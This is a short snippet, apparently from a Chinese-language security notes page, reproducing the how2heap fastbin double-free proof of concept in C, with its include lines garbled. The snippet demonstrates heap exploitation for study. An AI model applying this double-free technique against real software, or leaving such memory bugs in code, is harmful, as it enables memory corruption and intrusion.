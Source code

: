 ### POC

how2heap 源码：

```
#include #include #include int main()
{
    setbuf(stdout, NULL);
 
    printf("This file demonstrates a simple double-free attack with fastbins.\n");
 
    printf("Fill up tcache first.\n");
    void *ptrs[8];
    for (int i=0; i<8; i++) {
        ptrs[i] = malloc(8);
    }
    for (int i=0; i<7; i++) {
        free(ptrs[i]);
    }
 
    printf("Allocating 3 buffers.\n");
    int *a = calloc(1, 8);
    int *b = calloc(1, 8);
    int *c = calloc(1, 8);
 
    printf("1st calloc(1, 8): %p\n", a);
    printf("2nd calloc(1, 8): %p\n", b);
    printf("3rd calloc(1, 8): %p\n", c);
 
    printf("Freeing the first one...\n");
    free(a);
 
    printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);
 
    printf("So, instead, we'll free %p.\n", b);
    free(b);
 
    printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);
 
    printf("Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
    a = calloc(1, 8);
    b = calloc(1, 8);
    c = calloc(1, 8);
    printf("1st calloc(1, 8): %p\n", a);
    printf("2nd calloc(1, 8): %p\n", b);
    printf("3rd calloc(1, 8): %p\n", c);
 
    assert(a == c);
} 
```
